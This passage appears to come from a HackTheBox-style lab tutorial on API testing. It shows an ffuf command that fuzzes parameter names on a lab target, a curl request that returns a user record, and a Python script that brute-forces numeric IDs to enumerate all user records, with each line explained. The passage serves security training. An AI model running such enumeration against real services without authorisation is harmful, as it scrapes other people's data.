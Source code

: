 We notice a similar response size in every request. This is because supplying any parameter will return the same text, not an error like 404.

Let us filter out any responses having a size of 19, as follows.

```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19

[redacted]
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 id                      [Status: 200, Size: 38, Words: 7, Lines: 1]
```

It looks like _id_ is a valid parameter. Let us check the response when specifying _id_ as a parameter and a test value.

```shell
gitblanc@htb[/htb]$ curl http://<TARGET IP>:3003/?id=1
[{"id":"1","username":"admin","position":"1"}]
```

Find below a Python script that could automate retrieving all information that the API returns (save it as `brute_api.py`).

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

- We import two modules _requests_ and _sys_. _requests_ allows us to make HTTP requests (GET, POST, etc.), and _sys_ allows us to parse system arguments.
- We define a function called _brute_, and then we define a variable called _value_ which has a range of _10000_. _try_ and _except_ help in exception handling.
- `url = sys.argv[1]` receives the first argument.
- _r = requests.get(url + '/?id='+str(val))_ creates a response object called _r_ which will allow us to get the response of our GET request. We are just appending _/?id=_ to our request and then _val_ follows, which will have a value in the specified range.
- _if "position" in r.text:_ looks for the _position_ string in the response. If we enter a valid ID, it will return the position and other information. If we don't, it will return `[]`.

The above script can be run, as follows.
